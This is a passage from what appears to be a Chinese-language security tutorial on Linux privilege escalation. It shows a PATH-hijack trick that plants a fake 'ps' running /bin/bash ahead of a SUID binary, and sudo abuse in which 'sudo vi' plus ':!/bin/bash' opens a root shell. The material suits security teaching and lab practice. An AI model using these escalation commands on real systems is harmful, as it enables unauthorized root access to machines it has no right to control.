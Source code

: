 提权：

```bash
cd /tmp
echo “/bin/bash” > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/yokan/script
./shell
whoami
```

<img src=".\图片\1964477-20220523122646461-1660758288.png" alt="img" style="zoom:80%;" />

其他更多的方法参考上面的文章

## sudo提权

一旦攻击者有权访问任何SUDO用户，那么他基本上就可以使用root权限执行任何命令。管理员可能只允许用户通过SUDO运行一些命令，但绝对不是所有命令，即使是使用这样的配置，他们也可能会在不知情的情况下引入漏洞，从而导致权限提升的风险。

**无密码：**

`sudo -l`**打印允许作为SUDO运行的命令**

[<img src=".\图片\1964477-20220523122645150-409578998.png" alt="img" style="zoom:80%;" />

假如我们被允许以sudo运行`find、cat、vi、more、less、nmap、perl、ruby、gdb、python`等任何编程语言编译器、解释器和编辑器，那么我们就可以通过这些命令，获得root权限。

> 实际环境中不一定会这么明显显示可用命令，某些配置也是可以使用这几个命令的，如果对sudo机制不熟悉，可以直接使用sudo+命令 测试是否可用。

例如 `vi`命令：

进入底线命令模式，输入:!/bin/bash，即可打开一个用户为root的shell

```javascript
sudo vi test.txt
:!/bin/bash
```
